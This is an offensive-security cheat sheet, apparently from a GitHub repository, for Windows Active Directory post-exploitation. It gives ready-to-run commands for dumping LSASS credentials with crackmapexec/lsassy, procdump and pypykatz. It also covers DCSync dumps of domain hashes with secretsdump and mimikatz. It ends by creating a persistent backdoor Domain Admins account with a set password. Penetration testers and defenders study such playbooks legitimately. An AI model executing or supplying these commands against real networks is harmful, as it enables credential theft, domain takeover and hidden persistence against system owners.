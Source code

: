**Requirements**:
- password or NT hash of a *local admin* account

**The LSASS process handles the security-related operations of a machine, including user authentication. Specifically, the process captures the credentials of users who have performed an *interactice logon* on the machine. We can therefore find**:
- **tickets and keys Kerberos**
- **NT hashes of users currently logged in the machine**
- **plain-text passwords for services in some older configurations**

*Remote Dumping*:

```shell
# local admin credentials
crackmapexec smb <IP TARGET> -u <LOCAL ADMIN USERNAME> -H <LOCAL ADMIN HASH NT> --local-auth -M lsassy
# case where domain user is a local admin
crackmapexec smb <IP TARGET> -u <LOCAL ADMIN USERNAME> -H <LOCAL ADMIN HASH NT> -M lsassy
```

*Offline Dumping*:

1. LSASS dump (*command must be executed within the machine.*)

```shell
# (require: *ErrorCode: 0, ReturnCode: 1*)
procdump.exe -accepteula -ma lsass lsass.dmp
```

2. offline dump analysis

```shell
pypykatz lsa minidump lsass.dmp
```

# DomainAdminsPersistence

**Requirements**:
- a shell with an user member of Domain Admins group
- a shell on DC machine

## dcsync on domain controller

- *secretsdump* - SAM and NTDS dump:
	- `python3 examples/secretsdump.py <DOMAIN NAME>/'<DOMAIN ADMIN USERNAME>:<PASSWORD>'@<IP DC>`
- *mimikatz* - NTDS dump:
	- `.\mimikatz.exe "lsadump::dcsync /domain:beyond.com /all /csv" exit`
- *mimikatz* - hash NT Administrator domain user dump:
	- `.\mimikatz.exe "lsadump::dcsync /domain:beyond.com /user:Administrator" exit`

## create privileged account

Step:
1. create a new domain account
	- `net user pablo I4mPabl0! /add /domain`
2. add new user in "Domain Admins" group
	- `net group "Domain Admins" pablo /add /domain`
3. you can use *psexec* and get a shell with SYSTEM privileges on DC

